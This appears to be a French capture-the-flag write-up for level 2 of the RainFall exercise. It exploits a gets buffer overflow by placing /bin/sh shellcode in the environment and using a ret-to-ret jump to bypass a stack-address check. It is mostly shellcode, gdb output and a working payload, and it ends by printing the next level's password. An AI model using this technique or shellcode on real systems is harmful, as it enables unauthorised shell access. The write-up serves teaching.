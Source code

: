 # Level 2

Ce binaire utilise aussi la fonction [`gets`](https://linux.die.net/man/3/gets) comme le [niveau 1](/level1/README.md). Cependant le programme a une protection qui vérifie si l'adresse de EIP n'est pas une adresse de la stack, commencant donc par `0xb...`. Mais nous pouvons exporter un [*shellcode*](https://en.wikipedia.org/wiki/Shellcode) dans l'environnement, et *jump* à l'adresse de `return` et la modifier par l'adresse de notre shellcode.

Nous pouvons importer notre shellcode dans l'`env` et lors du `ret` jump à cette adresse :
```shell
~ export SHELLCODE=`python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80"'`
~ gdb level2
[...]
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
[...]
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
[...]
   0x0804853e <+106>:	ret
End of assembler dump.
(gdb) b *0x08048542
Breakpoint 1 at 0x8048542
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) info variable env
All variables matching regular expression "env":

Non-debugging symbols:
0xb7fd2e04  __environ
0xb7fd2e04  _environ
0xb7fd2e04  environ
(gdb) x/s *((char**)environ+0)
0xbffff88e:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Phn/shh//bi\211\343\231RS\211\341\260\v\315\200""
(gdb) quit
~ python -c 'print "B"*80 + "\x3e\x85\x04\x08" + "\x8e\xf8\xff\xbf"' > /tmp/level2
~ level2@RainFall:~$ cat /tmp/level2 - | ./level2
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB>BBBBBBBBBBBB>����
pwd
/home/user/level2
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```